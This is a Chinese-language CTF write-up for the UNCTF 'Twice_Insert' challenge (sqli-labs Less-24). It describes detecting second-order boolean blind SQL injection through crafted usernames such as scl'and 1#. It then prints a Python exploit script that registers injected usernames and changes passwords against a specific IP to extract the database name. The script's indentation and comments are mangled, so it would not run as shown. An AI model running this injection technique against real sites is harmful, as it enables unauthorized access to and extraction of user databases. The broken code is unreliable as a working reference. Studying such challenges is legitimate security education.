


UNCTF-Twice_Insert
==============

原理分析
----------

题目提示twice-insert，分析是利用二次注入获取admin密码或者是暴库拿flag。

解题过程
----------

1）访问目标主机，打开页面发现是`sqli-labs-24`，原题是利用`二次注入`修改admin密码，这题修改admin密码却没有flag，要想拿到flag可能需要爆库。<br>
2）根据题意，尝试布尔盲注<br>
* 发现`or`被过滤，如此需要换一个思路，因为有注册按钮，尝试注册新用户。<br>

3)注册一个新用户`scl`，password为`1`，然后注册用户`scl’and 1#`（该用户名用于测试注入），password为`1`，用于后面的测试<br>
修改用户`scl’and 1#`的密码为`0`<br>
  
  <br>
修改成功：<br>
  
  <br>
4)将scl的密码重置为`1`：注册新的用户`scl’and 0#`，password为`1`，然后登陆该账号修改密码<br>
  
  <br>
回显如下：<br>
  
  <br>
密码更新失败，说明存在布尔盲注。

编写EXP
--------

写python脚本，通过多次注册用户、修改密码，进行暴库。
```python
#coding = utf-8
import requests
url = "http://183.129.189.60:10003/sqli/Less-24/login_create.php"
url1 = "http://183.129.189.60:10003/sqli/Less-24/login.php"
url2 = "http://183.129.189.60:10003/sqli/Less-24/pass_change.php"
#将密码改回1
def change21():
    user = "scl"
    s = requests.session()
    data = {
        "login_user": user,
        "login_password": '0',
        "mysubmit": "Login"
    }
    r = s.post(url1, data)
    data = {
        "current_password": '0',
        "password": '1',
        "re_password": '1',
        "submit": 'Reset'
    }
    r = s.post(url2, data)

def second():
    flag = ""
    tmp = 1
    for i in range(1, 50):
        if tmp == 0:
        break
    tmp = 0
    for j in range(32, 127):
        s = requests.session()
    user = "scl'and ascii(substr((select database())," + str(i) + ",1))=" +
        str(j) + "#"
    print user
    # 注册用户名
    data = {
        "username": user,
        "password": '1',
        "re_password": '1',
        "submit": "Register"
    }
    r = s.post(url, data)
    # 登录用户
    data = {
        "login_user": user,
        "login_password": '1',
        "mysubmit": "Login"
    }
    r = s.post(url1, data)
    # print r.content.decode()
    if "YOU ARE LOGGED IN AS" in r.content.decode():
        print "login ok"
    #
    更改密码
    data = {
        "current_password": '1',
        "password": '0',
        "re_password": '0',
        "submit": 'Reset'
    }
    r = s.post(url2, data)
    if "successfully updated" in r.content.decode():
        flag += chr(j)
    tmp = 1
    print "change ok"
    change21()
    break
    print flag
second()
```

总结
---

这个题目的类型是第一见，在北京联合大学举办的UNCTF里面第一次见到，然后昨天去打web安全的省赛又遇到了（安恒真会省事），当时拿到环境复现了一下，但是由于服务器原因，没有跑出完整的flag，但是是第一次见这类的题，写个题解学习一下。

